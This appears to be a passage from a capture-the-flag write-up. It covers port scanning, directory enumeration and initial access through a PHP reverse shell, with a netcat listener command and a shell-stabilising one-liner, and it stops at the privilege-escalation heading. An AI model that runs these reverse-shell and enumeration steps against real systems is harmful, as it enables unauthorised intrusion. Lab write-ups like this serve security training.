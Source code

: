 
## 2. Recon

Key tools used (examples): `nmap`, `gobuster`, `wfuzz`/`ffuf`.

### Ports

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18
```

### Directory enumeration highlights

`gobuster` turned up paths including `/admin`, `/api`, `/dev`, `/cm`, and `/backup`-like content. A `wfuzz` (or `ffuf`) run discovered developer messages on a `dev` endpoint that contained a PHP reverse shell template and a temporary admin password.

Files of interest discovered on the webserver:

* Developer messages containing `php-reverse-shell` code
* `andre_backup.tar.gz` referenced in `/tmp`
* `/opt/.password.bak` (readable)

---

## 3. Initial access (www-data)

A PHP reverse shell extracted from developer messages was used to gain an initial shell. Example steps:

1. Start listener locally:

```bash
nc -lnvp 4444
```

2. Trigger the PHP reverse shell via HTTP (example payload was present in app developer messages).
3. Receive a connection from the target and confirm identity:

```bash
uname -a
id
# output showed: uid=33(www-data) gid=33(www-data)
```

4. Stabilize shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

---

## 4. Privilege escalation to `andre`
